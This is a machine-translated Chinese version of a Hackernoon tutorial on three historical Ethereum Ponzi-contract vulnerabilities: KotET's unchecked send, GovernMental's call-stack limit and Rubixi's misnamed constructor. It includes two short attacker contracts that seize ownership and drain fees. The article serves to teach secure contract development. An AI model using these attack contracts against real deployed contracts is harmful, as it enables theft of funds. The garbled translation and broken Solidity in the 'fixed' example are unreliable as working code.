

# 智能合同攻击[第 2 部分] -庞氏游戏出错

> 原文：<https://medium.com/hackernoon/smart-contract-attacks-part-2-ponzi-games-gone-wrong-d5a8b1a98dd8>



庞氏游戏。如果你在 2016 年关注以太坊区块链，你会知道早期的智能合约开发有过多的庞氏游戏。像传统的庞氏骗局一样，这些游戏的设计使得它们的继续取决于边缘玩家加入合同以保持“乐趣”继续。虽然这些合同注定会戛然而止，但有些人会发现结束的原因不同…

在*智能合约攻击* ( [第一部分这里](https://hackernoon.com/smart-contract-attacks-part-1-3-attacks-we-should-all-learn-from-the-dao-909ae4483f0a))的第二部分，我将带你浏览三个成为智能合约漏洞受害者的庞氏游戏，以及如何避免犯同样的错误。您还将对智能合同开发、合同最佳实践以及以太坊最著名的庞氏游戏有更全面的了解。

# 攻击#1:异常紊乱

当攻击者利用合同未能返回异常错误时，就会发生异常紊乱攻击。当合同调用`address.send()`或`address.call.value()`等函数不成功时，触发异常错误。错误本身不会被标记，除非合同被指示这样做；异常错误不会自动生成。

**攻击** 2016 年 2 月 6 日[以太王座(KotET)](https://www.kingoftheether.com/thrones/kingoftheether/index.html) 智能契约部署完毕。KotET 是一种游戏，玩家将向合同发送一定数量的乙醚，以获得“王位”。一登上王位，这位球员就被加入了“帝王之殿”，并在区块链上永垂不朽。更重要的是，新国王有权获得由后来篡夺他们的国王支付的以太。随着继承王位的国王越来越多，成为国王的成本也越来越高。如果 14 天过去了还没有新的继任者，王位就被重置，游戏重新开始。这个想法是，一个新的国王付钱要求继承王位，意图是一个继任者出现并支付更高的价格——“更大的傻瓜理论”或庞氏骗局，如果你愿意…

**下面的代码** 是最初 KotET 契约的简化版。注意回退功能，当玩家发送`msg.value`到契约时触发。回退功能将首先检查是否有足够的乙醚被送到国王手中，以便继承王位。如果没有，请求被抛出，代码被恢复。如果足够的以太被发送来要求王位，现有的国王收到上述补偿(索赔价格减去佣金)，发送者被加冕为新国王。总结一下，计算一个新的索赔价格。

```
**contract KotET {** **address public king;
    uint public claimPrice = 100;
    address owner;** //constructor, assigning ownership **constructor() {
        owner = msg.sender;
        king = msg.sender;
    }**//for contract creator to withdraw commission fees **function sweepCommission(uint amount) {
        owner.send(amount);
    }** //fallback function **function() {
        if (msg.value < claimPrice) revert;
        uint compensation = calculateCompensation();** **king.send(compensation);
        king = msg.sender;
        claimPrice = calculateNewPrice();
    }****}**
```

KotET 契约的致命缺陷是使用了`address.send()`,并且在调用失败时没有检查异常错误。正如我在 [**智能契约攻击【第一部分】**](https://hackernoon.com/smart-contract-attacks-part-1-3-attacks-we-should-all-learn-from-the-dao-909ae4483f0a)`address.send()`和`address.transfer()`中讨论的，都被限制在 2300 的津贴。虽然这对于防止重入攻击来说很棒，但是如果国王的合同有花费> 2300 汽油的后备功能，汽油限制将导致无法向国王的地址发送资金。KotET 就是这种情况，支付给被废黜国王的款项被发送到一个**以太迷雾“基于合同的钱包**”而不是一个**“合同账户”，**需要更多的汽油才能成功地将款项发送给即将被篡夺的国王。最终结果是一次不成功的付款转账，ether 退回到 KotET 合同。因为付款永远不会寄给国王，所以新国王永远不会加冕，合同也永远无法解除。

**解决方案** 我们可以通过用`king.call.value(Compensation)`替换契约的回退功能`king.send(Compensation)`来使契约更加安全。问题是，这将要求所有者分配一个足够大的天然气量，以方便大多数接收钱包合同，但也要足够低，以满足当前合同的大多数呼叫者——这几乎是一个不可能的任务。即使没有规定天然气的数量，合同仍然容易受到 DoS 攻击。攻击者可以创建一个带有回退函数的契约，该函数抛出一个异常`revert()`。这也会导致合同永久失效。

KotET 可以用两种方法解决:

1.  抛出一个异常，调用被恢复——我们可以通过简单地将`revert`添加到函数中来实现。这将阻止合同被搁置，但需要额外的步骤来促进支付转移。想到的两个想法包括所有者自己发送批量支付(过于集中)，或者实现批量支付，确保支付一直发送到“头奖”中没有剩余资金。
2.  与直接的`send`叫牌相反，实现一个撤销模式，契约可以被构造为玩家只能导致他或她自己的撤销失败，而不是契约的其余部分。撤销模式的唯一缺点是它的自主性差得多，需要更多的用户交互。让我们看看如何更新合同来实现这些更改。

```
**contract KotET {** **address public king;
    uint public claimPrice = 100;
    uint public resolutionFunds
    address owner;
    mapping (address => uint) creditedFunds;** //constructor, assigning ownership **constructor() {
        owner = msg.sender;
        king = msg.sender;
    }** //for contract creator to withdraw commission fees **function sweepCommission(uint amount) {
        owner.send(amount);
    }** //for assigning new king and crediting balance **function becomeKing() public payable returns (bool) {
        if (msg.value > claimPrice) {
            creditedFunds[richest] += msg.value;
            king = msg.sender;
            return true;
        } else {
            return false;
        }
    }

    function withdraw() public {
        uint amount = creditedFunds[msg.sender];** //zeroing the balance BEFORE sending creditedFunds
        //to prevent re-entrancy attacks **pendingWithdrawals[msg.sender] = 0;
        msg.sender.transfer(amount);
    }****}**
```

嘣！现在，合同不再依赖后备功能来执行新国王的加冕*和*直接发送资金给被篡夺的国王。契约现在是安全的，不会受到任何可能危及契约的回退/重入攻击。

# 攻击#2:调用堆栈攻击

在 [EIP 150](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-150.md) 实现之前，EVM 的可达调用栈深度为 1024 帧。这意味着某人可以调用合约 1023 次，直到第 1024 次调用自动失败。攻击者会故意拨打第 1023 次电话，导致随后的电话失败，从而窃取资金/获得合同控制权。

与 KotET 类似，GovernMental 是一个庞氏游戏，参与者向契约中发送一定数量的乙醚以加入。每一轮的赢家取决于赢得“头奖”的那一轮。游戏规则如下:

*   你必须至少借 1 ETH 给合同，你有权得到+ 10%的利息
*   如果“政府”(合同)在 12 小时内没有收到新的资金，最新的债权人将获得头奖，所有其他人都将失去他们的债权
*   发给合同的乙醚是这样分配的:5%给累积奖金，5%给管理政府的腐败精英(合同所有者)，90%用于按照债权人的信用日期支付他们
*   当头奖满时(10K 联邦理工学院)，95%支付给债权人
*   额外好处:债权人可以为想要加入的朋友使用附属链接。如果一个朋友为合同做了贡献，那么 5%归债权人，5%归腐败精英(合同所有者)，5%归累积奖金，85%用于支出。

合同是这样写的，参与者和他们的资金记录在两个数组中，`address[] public credAddr`和`uint[] public credAmt`。这两个数组都将在每场游戏结束时被重置。政府取得了足够的成功，阵列变得如此之大，以至于清除它们所需的气体超过了单次交易所允许的最大值。最终结果是累积奖金永久冻结，总计约 1100 以太。然而，就在 Vitalik Buterin 在 Reddit 上建议支付“价值 50 ETH 的交易费，以将汽油限制提高到 510 万”后大约 3 个小时，有人开始为卡住的奖励付费。大约过了 2 个月，[资金终于解锁，发给了坚持不懈的来电者。](https://etherscan.io/txsInternal?a=0xf45717552f12ef7cb65e95476f217ea008167ae3&p=5)

虽然 GovernMental 没有受到恶意用户/所有者的攻击，但它是调用堆栈攻击可能造成的损害的主要例子。它还展示了当涉及到基金所有权时，在处理数组和大型数据集时需要表现出的深思熟虑。

**下面的代码** 是完整的政府智能合同代码，带有一些缩短的全局变量。我已经完整地包含了真实的合同，因为通过逐行检查这个合同可以学到很多东西，包括合同是如何构造的。人们可以看到`function lendGovernmentMoney()`引用了债权人的地址和重置或添加到现有数组所需的以太量。请注意，在这个相同的功能中，当自最后一个债权人加入以来已经过了 12 个小时时，资金是如何在合同所有者和最后一个债权人之间分配的— `credAddr[credAddr.length 1].send(profitFromCrash);`和`corruptElite.send(this.balance);` **。**

```
**contract Government {** // Global Variables **uint32 public lastPaid;
    uint public lastTimeOfNewCredit;
    uint public profitFromCrash;
    address[] public credAddr;
    uint[] public credit;
    address public corruptElite;
    mapping (address => uint) buddies;
    uint constant TWELVE_HOURS = 43200;
    uint8 public round;**// constructor **constructor() {** **profitFromCrash = msg.value;
        corruptElite = msg.sender;
        lastTimeOfNewCredit = block.timestamp;
    }** **function lendGovernmentMoney(address buddy) returns (bool) {
        uint amount = msg.value;**    // check if the system already broke down. 
        // If 12h no new creditor gives new credit to 
        // the system it will brake down.
        // 12h are on average = 60*60*12/12.5 = 3456 **if (lastTimeOfNewCredit + TWELVE_HOURS < block.timestamp)** // Return money to sender **msg.sender.send(amount);** // Sends all contract money to the last creditor **credAddr[credAddr.length - 1].send(profitFromCrash);
            corruptElite.send(this.balance);** 
            // Reset contract state **lastPaid = 0;
            lastTimeOfNewCredit = block.timestamp; 
            profitFromCrash = 0;** // this is where the arrays are cleared **credAddr = new address[](0);
            credAmt = new uint[](0);
            round += 1;
            return false;
        } 
        else {**// the system needs to collect at 
            // least 1% of the profit from a crash to stay alive **if (amount >= 10 ** 18) {**// the System has received fresh money, 
                // it will survive at leat 12h more **lastTimeOfNewCredit = block.timestamp;** // register the new creditor and his 
                // amount with 10% interest rate **credAddr.push(msg.sender);
                credAmt.push(amount * 110 / 100);**// now the money is distributed
                // first the corrupt elite grabs 5% — thieves! **corruptElite.send(amount * 5/100);**// 5% are going into the economy (they will increase
                // the value for the person seeing the crash coming) **if (profitFromCrash < 10000 * 10**18)
                    profitFromCrash += amount * 5/100;
                }** // if you have a buddy in the government (and he is
                // in the creditor list) he can get 5% of your 
                // credits. Make a deal with him.
                **if(buddies[buddy] >= amount) {
                    buddy.send(amount * 5/100);
                }
                buddies[msg.sender] += amount * 110 / 100;**// 90% of money used to pay out old creditors **if (credAmt[lastPaid] <= address(this).balance — profitFromCrash){
                   credAddr[lastPaid].send(credAmt[lastPaid]);
                   buddies[credAddr[lastPaid]] -= credAmt[lastPaid];
                   lastPaid += 1;
                }
                return true;
            } 
            else {
                msg.sender.send(amount);
                return false;
            }
        }
    }** // fallback function **function() {
        lendGovernmentMoney(0);
    }

    function totalDebt() returns (uint debt) {
        for(uint i=lastPaid; i<credAmt.length; i++){
            debt += credAmt[i];
        }
    }** **function totalPayedOut() returns (uint payout) {
        for(uint i=0; i<lastPaid; i++){
            payout += credAmt[i];
        }
    }** // donate funds to "the government"
    **function investInTheSystem() {
        profitFromCrash += msg.value;
    }**// From time to time the corrupt elite 
    // inherits it’s power to the next generation
 **function inheritToNextGeneration(address nextGeneration) {
        if (msg.sender == corruptElite) {
            corruptElite = nextGeneration;
        }
    }** **function getCreditorAddresses() returns (address[]) {
        return credAddr;
    }

    function getCreditorAmounts() returns (uint[]) {
        return credAmt;
    }
}**
```

我们假设一个攻击者写了下面这个契约来恶意攻击`contract Government {}`。

```
**contract attackGov {** **function attackGov (address target, uint count) {

    if (0<= count && count<1023) {
        this.attackGov.gas(gasleft() - 2000)(target, count+1);
    } 
    else {
       attackGov(target).lendGovernmentMoney;** **}****}**
```

攻击者调用`contract attackGov{}`进行递归调用，直到堆栈大小达到 1023。当堆栈达到 1022 时，以堆栈大小 1023 执行`function lendGovernmentMoney()` 。因为第 1024 次调用被设计为失败，并且`send()`不检查返回的代码，所以政府的`credAddr[credAddr.length — 1].send(profitFromCrash);`失败。然后，合同自行重置，下一轮谈判准备开始。因为支付失败，该合同现在具有上一轮的累积奖金，并且所有者将在下一轮完成时收到它，`corruptElite.send(this.balance);`。

**解决方案** 那么到底如何才能避免调用栈攻击呢？幸运的是[以太坊改进协议(EIP) 150](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-150.md) 包含了一个更新，使得调用栈深度 1024 几乎不可能达到。该规则规定，通话的孩子消耗的汽油不能超过父母的 63/64。即使稍微接近调用堆栈的限制，代价也会高得令人难以置信，以至于攻击者会毫不犹豫地继续下去。

另一方面，处理大量数据时的最佳实践包括:

*   编写合同，以便将数组清算工作划分到几个事务中，而不是一个或多个事务
*   以一种允许用户单独处理与他们自己关联的数组元素的方式编写协定。

# 攻击# 3——不可变构造函数错误

是什么让智能合约如此特别？它们是不可改变的。是什么让智能合同成为噩梦？它们是不可改变的。到目前为止，人们已经放弃了一个结论，即在撰写一份明智的合同时，可能会出现很多问题。在合同生效之前，必须对功能、全局变量和整体合同结构进行彻底审查。

如果有一个智能合同将作为疏忽合同构造的海报儿童而载入以太坊历史，那无疑是 Rubixi。Rubixi 是另一个庞氏游戏，玩家将乙醚送到合同中，期望至少收到适度更多的乙醚。然而，在 Rubixi 开发期间的某个时间点，业主随意更改了合同名称，并且未能检查由于更改而导致的任何不一致。不用说，卢比西远远没有被贴上“成功”的标签。

**攻击** 从 Solidity v0.4.24 开始，契约的构造函数表示为`construct()`。然而，当 Rubixi 契约被创建时，EVM 通过共享与该契约相同的名称来标识构造函数。Rubixi 的问题是，当部署契约时，构造函数被设置为`function DynamicPyramid()`而不是`function Rubixi()`，这意味着 Rubixi 最初可能被称为“DynamicPyramid”。由于这种不一致，合同没有在合同创建时指定所有者，城堡的钥匙是公开的。任何人都可以将自己指定为合同的所有者，并收取参与玩家产生的合同费用。

**代码** 如果我们提取契约代码的前几行，您可以看到契约名称和预期构造函数之间的差异。如果您想查看 Rubixi 的原始合同，请点击此处。

```
 **contract Rubixi {**//Declare variables for storage critical to contract **uint private balance = 0;
    uint private collectedFees = 0;
    uint private feePercent = 10;
    uint private pyramidMultiplier = 300;
    uint private payoutOrder = 0;** **address private creator;**//Sets creator **function DynamicPyramid() {
        creator = msg.sender;
    }**
```

**攻击** 您现在可能已经知道了，攻击者所要做的就是创建一个名为`function DynamicPyramid()`的契约，从而授予他们所有权。从那里，攻击者可以打电话给`function collectAllFees()`并提取现金。虽然攻击相当直接，但 Rubixi 是另一个说明彻底审查合同重要性的典型例子。

```
**contract extractRubixi {

    address owner;
    Rubixi r = Rubixi(0xe82...);

    constructor() public {
        owner=msg.sender;
    }

    function setAndGrab() public {
        r.DynamicPyramid();
        r.collectAllFees();
    }

}**
```

**解决方案** 幸运的是，Solidity 已经更新，因此构造函数由`constructor()` 定义，而不是由`contractName()`定义。我们可以从中学到的是，加倍、三倍、四倍地检查你的合同代码的每一个方面，并确保你在整个开发过程中保持一致。没有什么比部署一个不可变的契约却发现一个愚蠢的、代价高昂的错误更糟糕的了。

# 在一天结束的时候…

庞氏骗局可能已经成为过去，但正如乔治·桑塔亚纳曾经说过的一句名言，*“那些不能从历史中吸取教训的人注定会重蹈覆辙”。通过从 KotET、GovernMental 和 Rubixi 的失败中吸取教训，我们都可以省去再次走上错误道路的头痛。希望你现在对可靠性有了更好的理解，并且对智能合同开发更有信心。如果你喜欢这篇文章，请随时留下“掌声”和/或评论！*

## 想写你的第一份智能合同吗？查看我的教程

## [**智能契约攻击【上篇】— 3 攻击我们都要向刀**](https://hackernoon.com/smart-contract-attacks-part-1-3-attacks-we-should-all-learn-from-the-dao-909ae4483f0a) 学习

*   银箱